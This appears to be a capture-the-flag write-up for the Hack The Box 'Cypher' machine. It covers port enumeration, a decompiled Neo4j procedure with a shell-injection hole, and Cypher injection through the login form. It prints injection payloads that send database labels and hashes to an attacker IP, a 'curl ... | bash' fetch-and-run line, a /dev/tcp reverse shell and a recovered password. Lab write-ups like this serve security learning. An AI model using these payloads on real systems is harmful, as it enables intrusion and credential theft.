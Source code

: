 ![](Pasted%20image%2020250302120440.png)
# 1.  Service Enumeration
| IP  | Port |
| --- | ---- |
| TCP | -    |
| UDP | -    |
## a. TCP Active Port
![](Pasted%20image%2020250302120508.png)
![](Pasted%20image%2020250302123534.png)
## b. UDP Active Port
![](Pasted%20image%2020250302142145.png)
## c. Domain
cypher.htb
# 2. Initial Access
## a. Web - cypher.htb
### Login
![](Pasted%20image%2020250302164602.png)
## b. Subdomain
no result
## c. Directory
feroxbuster
![](Pasted%20image%2020250302165805.png)
## d. Directory Listing
![](Pasted%20image%2020250302164924.png)
open jar file
![](Pasted%20image%2020250302165457.png)
try open using jd-gui, CustomeFunctions.class is quite ineteresting 
![](Pasted%20image%2020250302212736.png)
```
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
  @Description("Returns the HTTP status code for the given URL as a string")
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
      url = "https://" + url; 
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
    System.out.println("Command: " + Arrays.toString((Object[])command));
    Process process = Runtime.getRuntime().exec(command);
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
    StringBuilder errorOutput = new StringBuilder();
    String line;
    while ((line = errorReader.readLine()) != null)
      errorOutput.append(line).append("\n"); 
    String statusCode = inputReader.readLine();
    System.out.println("Status code: " + statusCode);
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
    if (!exited) {
      process.destroyForcibly();
      statusCode = "0";
      System.err.println("Process timed out after 10 seconds");
    } else {
      int exitCode = process.exitValue();
      if (exitCode != 0) {
        statusCode = "0";
        System.err.println("Process exited with code " + exitCode);
      } 
    } 
    if (errorOutput.length() > 0)
      System.err.println("Error output:\n" + errorOutput.toString()); 
    return Stream.of(new StringOutput(statusCode));
  }
  
  public static class StringOutput {
    public String statusCode;
    
    public StringOutput(String statusCode) {
      this.statusCode = statusCode;
    }
  }
}
```
try run the jar file -> `no main manifest attribute, in custom-apoc-extension-1.0-SNAPSHOT.jar`
![](Pasted%20image%2020250302213910.png)
## e. Login form
error when input single quote -> database **neo4j**
![](Pasted%20image%2020250302215509.png)
try sqlmap -> failed
![](Pasted%20image%2020250302220106.png)
https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits
- cek db
```
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.26:8000/?l='+label as l RETURN 0 as _0 //

' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.191:8000/?'+label AS b RETURN b//
```
![](Pasted%20image%2020250303111801.png)
![](Pasted%20image%2020250303111825.png)
- cek neo4j version -> 5.24.1
```
' RETURN 0 as _0 UNION CALL dbms.components() YIELD versions LOAD CSV FROM 'http://10.10.14.26:8000/?v='+versions[0] as v RETURN 0 as _0//

' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```
![](Pasted%20image%2020250303140409.png)
- cek value dari masing2 label
  labeh HASH menarik -> 9f54ca4c130be6d529a56dee59dc2b2090e43acf
```
' OR 1=1 WITH 1 as a MATCH (f:HASH) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.191:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
![](Pasted%20image%2020250306090611.png)
label scan -> SCAN:eb3cf8eb641dd2e8005128c2fee4b43e59fd7785
![](Pasted%20image%2020250306093939.png)

## f. Hash Cracking
ndak bisa
## g. get shell
```
' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.htb;curl http://10.10.14.26:8000/shell.sh| bash;\") YIELD statusCode AS a RETURN a;//
```
![](Pasted%20image%2020250306115257.png)
```
/bin/sh -i >& /dev/tcp/10.10.14.26/4444 0>&1
```
![](Pasted%20image%2020250306115356.png)
## i. Explore shell
got credentials cU4btyib.20xtCMCXkBmerhK
![](Pasted%20image%2020250306131506.png)
try ssh using that credentials -> success
![](Pasted%20image%2020250306132952.png)
# 3. Privilege Escalation
## a. First explore
sudo -l
![](Pasted%20image%2020250306133152.png)
netstat -tunlp
![](Pasted%20image%2020250306133243.png)
bbot credentials
![](Pasted%20image%2020250306134040.png)
## b. Bbot
![](Pasted%20image%2020250306140638.png)
extract root.txt
![](Pasted%20image%2020250306140720.png)
# 4. Post Exploitation
## a. User Flag
## b. Root Flag
